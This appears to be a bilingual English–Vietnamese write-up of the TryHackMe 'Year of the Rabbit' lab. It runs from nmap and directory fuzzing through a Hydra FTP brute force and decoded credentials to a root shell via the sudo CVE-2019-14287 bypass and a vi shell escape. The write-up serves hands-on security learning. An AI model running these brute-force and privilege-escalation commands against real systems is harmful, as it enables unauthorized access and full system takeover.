 # Year of the Rabbit - TryHackMe Writeup
 
---

## 1. Reconnaissance

### Nmap Scan
```bash
nmap -sC -sV -oN nmap.txt <TARGET_IP>
```

- Found open ports: **21 (FTP), 22 (SSH), 80 (HTTP)**.  
*(Phát hiện ra 3 port mở: FTP, SSH, HTTP).*  

---

## 2. Enumeration (HTTP)
- Visiting `http://<TARGET_IP>/`, the site shows a rabbit theme.  
*(Truy cập web thì thấy giao diện liên quan đến thỏ).*  

- Using Gobuster/FFUF to fuzz directories:  
```bash
gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/dirb/common.txt
```
- Discovered `/assets/` directory.  
*(Fuzzing tìm ra thư mục `/assets/`).*  

- Inside, found a video file `RickRolled.mp4`. Running `strings` on it revealed a hidden parameter `intermediary.php?hidden_directory=/WExYY2Cv-qU/`.  
*(Trong video có hint dẫn tới file PHP với tham số ẩn chỉ đường dẫn bí mật).*  

---

## 3. Hidden Directory & FTP Credentials
- Navigating to:  
```http
http://<TARGET_IP>/WExYY2Cv-qU/intermediary.php?hidden_directory=%2FWExYY2Cv-qU
```

- The page redirected to a rickroll, but inside the HTML, a hidden message was found:
```
Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:
```

*(HTML tiết lộ user FTP là `ftpuser` và một list password để brute force).*  

---

## 4. FTP Access
- Tried brute force with Hydra:
```bash
hydra -l ftpuser -P wordlist.txt ftp://<TARGET_IP>
```

- Successfully logged in and found a file: `Eli's_Creds.txt`.  
*(Đăng nhập được FTP, tải file về máy).*  

---

## 5. Decoding Eli's Credentials
- The file contained Brainfuck code.  
*(File chứa đoạn mã Brainfuck — 1 esoteric programming language chỉ gồm ký tự `><+-.,[]`).*  

- Used a Brainfuck interpreter to decode:
```bash
python3 bf_decode.py "Eli's_Creds.txt"
```

- Output revealed credentials for user `eli`.  
*(Decode ra username/password cho user eli).*  

---

## 6. SSH as Eli
```bash
ssh eli@<TARGET_IP>
# password from Brainfuck decode
```

- Successfully logged in as `eli`.  
*(Đăng nhập được bằng SSH với user eli).*  

---

## 7. Privilege Escalation to Gwendoline
- While enumerating, found a secret file:
```
/usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
```

- The content:
```
Your password is awful, Gwendoline.
It should be at least 60 characters long! Not just MniVCQVhQHUNI
```

- Password for `gwendoline` is `MniVCQVhQHUNI`.  
*(File tiết lộ password của user gwendoline).*  

- Switch user:
```bash
su gwendoline
```

---

## 8. Checking Sudo Privileges
- As `gwendoline`, checked sudo permissions:
```bash
sudo -l
```

- Output:
```
(ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

*(Gwendoline có thể chạy vi bằng sudo nhưng bị chặn root).*  

- Version check:
```bash
sudo --version
```
Result: `1.8.10p3` → vulnerable to **CVE-2019-14287**.  

---

## 9. Exploiting CVE-2019-14287
- Bypass `!root` restriction using UID -1:
```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

- Inside vi, escape to shell:
```
:! /bin/bash
```

- Now root shell:
```bash
whoami   # root
id       # UID=0
cat /root/root.txt
```

*(Dùng trick -u#-1 để lừa sudo, mở vi rồi thoát ra shell root).*  

---

## 10. Conclusion
- The box involved:
  1. Recon with nmap + directory fuzzing.
  2. Hidden FTP credentials in a video.
  3. FTP file with Brainfuck → decode Eli’s creds.
  4. SSH as Eli → find hidden message.
  5. Switch to gwendoline.
  6. Exploit sudo vulnerability (CVE-2019-14287) → root.

*(Bài lab cho thấy chain: recon → stego hint → weak creds → su escalation → sudo exploit để root).*
